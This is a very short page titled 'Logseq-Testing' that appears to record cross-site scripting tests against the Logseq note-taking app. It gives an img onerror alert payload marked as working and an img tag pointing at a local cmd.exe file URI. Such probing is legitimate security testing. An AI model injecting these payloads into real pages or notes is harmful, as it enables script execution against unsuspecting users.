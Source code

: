 # Logseq-Testing
---
```
# WORKS
<img src=x onerror="alert('XSS')">
```

<img src="file:///C:/Windows/System32/cmd.exe">
